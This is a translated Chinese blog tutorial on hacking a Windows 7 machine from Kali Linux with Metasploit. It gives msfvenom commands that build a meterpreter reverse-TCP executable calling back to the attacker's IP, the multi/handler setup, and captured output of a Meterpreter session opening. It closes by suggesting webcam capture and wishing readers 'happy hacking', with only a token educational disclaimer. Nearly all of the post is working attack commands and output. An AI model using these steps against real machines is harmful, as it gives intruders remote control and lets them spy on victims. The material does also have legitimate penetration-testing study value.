 ```yaml
---
layout: post
title:	"如何使用 Kali Linux 黑掉 Windows"
date:	2017-02-11 10:00:00 +0800 
categories:	技术 linuxcn 
tags:	[linuxcn,黑客,攻击,MSF,Kali]
---
```



Kali Linux 派生自 Debian Linux，主要用于渗透测试，拥有超过 300 个的预安装好的渗透测试工具。Metasploit 项目中 Metasploit 框架支持 Kali Linux 平台，Metasploit 是一个用于开发和执行<ruby> 安全利用代码 <rp>  （ </rp> <rt>  security exploit </rt> <rp>  ） </rp></ruby>的工具。让我们来使用 Kali Linux 来攻破 Windows 吧。请注意，我写这篇文章只是出于教育目的哦——一切因此带来的后果和本文作者、译者无关。


![](/Asserts/Images/album/201702/10/224036lcbuz28jyo3u4fo4.png)


### 源机器详情


Kali Linux



```
root@kali:/# uname -a
Linux kali 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux
root@kali:/#

```

用做攻击对象的目标机器：



```
Windows 7 Ultimate SP1

```

### 步骤 1：创建 Payload 程序


Payload 是一个类似于病毒或者木马的程序，可以运行在远程目标上 —— 为了黑掉那台机器。可以通过以下命令来创建 Payload（`program.exe`），以便能使用 Kali Linux 黑掉 Windows。



```
root@kali:/# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.189.128 LPORT=4444 --format=exe -o /root/program.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 333 bytes
Final size of exe file: 73802 bytes
Saved as: /root/program.exe
root@kali:/# ls -la /root/program.exe
-rw-r--r-- 1 root root 73802 Jan 26 00:46 /root/program.exe

```

通过 `ls` 命令，我们可以确认 Payload 程序是否成功生成在指定的位置。


### 步骤 2：运行 `mfsconsole` 命令启动 msf 命令窗口



```
root@kali:# msfconsole


                                   .,,.                  .
                                .\$$$$$L..,,==aaccaacc%#s$b.       d8,    d8P
                     d8P        #$$$$$$$$$$$$$$$$$$$$$$$$$$$b.    `BP  d888888p
                  d888888P      '7$$$$\""""''^^`` .7$$$|D*"'```         ?88'
  d8bd8b.d8p d8888b ?88' d888b8b            _.os#$|8*"`   d8P       ?8b  88P
  88P`?P'?P d8b_,dP 88P d8P' ?88       .oaS###S*"`       d8P d8888b $whi?88b 88b
 d88  d8 ?8 88b     88b 88b  ,88b .osS$$$$*" ?88,.d88b, d88 d8P' ?88 88P `?8b
d88' d88b 8b`?8888P'`?8b`?88P'.aS$$$$Q*"`    `?88'  ?88 ?88 88b  d88 d88
                          .a#$$$$$$"`          88b  d8P  88b`?8888P'
                       ,s$$$$$$$"`             888888P'   88n      _.,,,ass;:
                    .a$$$$$$$P`               d88P'    .,.ass%#S$$$$$$$$$$$$$$'
                 .a$###$$$P`           _.,,-aqsc#SS$$$$$$$$$$$$$$$$$$$$$$$$$$'
              ,a$$###$$P`  _.,-ass#S$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$####SSSS'
           .a$$$$$$$$$$SSS$$$$$$$$$$$$$$$$$$$$$$$$$$$$SS##==--""''^^/$$$$$$'
_______________________________________________________________   ,&$$$$$$'_____
                                                                 ll&&$$$$'
                                                              .;;lll&&&&'
                                                            ...;;lllll&'
                                                          ......;;;llll;;;....
                                                           ` ......;;;;... .  .


Taking notes in notepad? Have Metasploit Pro track & report
your progress and findings -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.12.22-dev                         ]
+ -- --=[ 1577 exploits - 906 auxiliary - 272 post        ]
+ -- --=[ 455 payloads - 39 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf >

```

### 步骤 3：进行漏洞利用的细节


* 4444 端口：你可以按照自己的想法来选择使用哪个端口
* LHOST IP：表示 Kali Linux 机器的 IP，这里是 192.168.189.128。 使用如下命令来查看你的 Kali Linux 机器的 IP。



```
root@kali:/# ip r l
192.168.189.0/24 dev eth0  proto kernel  scope link  src 192.168.189.128  metric 100
root@kali:/#

```

现在在 msf 命令窗口使用 `use exploit/multi/handler` 命令，如下：



```
msf > use exploit/multi/handler
msf exploit(handler) >

```

然后在接下来的命令窗口中使用命令 `set payload windows/meterpreter/reverse_tcp`：



```
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

```

现在使用 LHOST 和 LPORT 来设置本地 IP 和本地端口，如下：



```
msf exploit(handler) > set lhost 192.168.189.128
lhost => 192.168.189.128
msf exploit(handler) > set lport 4444
lport => 4444

```

最后使用 `exploit` 命令。



```
msf exploit(handler) > exploit

[*] Started reverse TCP handler on 192.168.189.128:4444
[*] Starting the payload handler...

```

现在你需要在 Windows 上运行 `program.exe`，一旦它在目标机器上执行，你就可以建立一个 meterpreter 会话。输入 `sysinfo` 就可以得到这台被黑掉的 Windows 机器的详情。



```
msf exploit(handler) > exploit

[*] Started reverse TCP handler on 192.168.189.128:4444
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.189.1
[*] Meterpreter session 1 opened (192.168.189.128:4444 -> 192.168.189.1:53091) at 2017-01-26 00:51:31 +0000

meterpreter > sysinfo
Computer        : MANN-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64 (Current Process is WOW64)
System Language : en_IN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32

```

一旦你得到了这些详细信息，就可以做更多的漏洞利用，或者通过 `help` 命令获取更多信息，以便列出你可以黑掉该系统的所有选项，比如 `webcam_snap` 命令获取网络摄像头，同样你还可以使用其他更多的可用选项。祝你入侵愉快！！！！ ←\_←




---


作者简介：


嗨，我是 Manmohan Mirkar。很高兴认识你。我接触 Linux 是在十年前，我做梦也没想到我有现在这样的收获。我的愿望就是让你学到 Linux 的知识，谢谢你的阅读。


译者简介：


[GHLandy](http://GHLandy.com) —— 划不完粉腮柳眉泣别离。




---


via: <http://www.linuxroutes.com/quick-guide-how-to-hack-windows-with-kali-linux/>


作者：[Manmohan Mirkar](http://www.linuxroutes.com/quick-guide-how-to-hack-windows-with-kali-linux/) 译者：[GHLandy](https://github.com/GHLandy) 校对：[wxy](https://github.com/wxy)


本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创编译，[Linux中国](https://linux.cn/) 荣誉推出
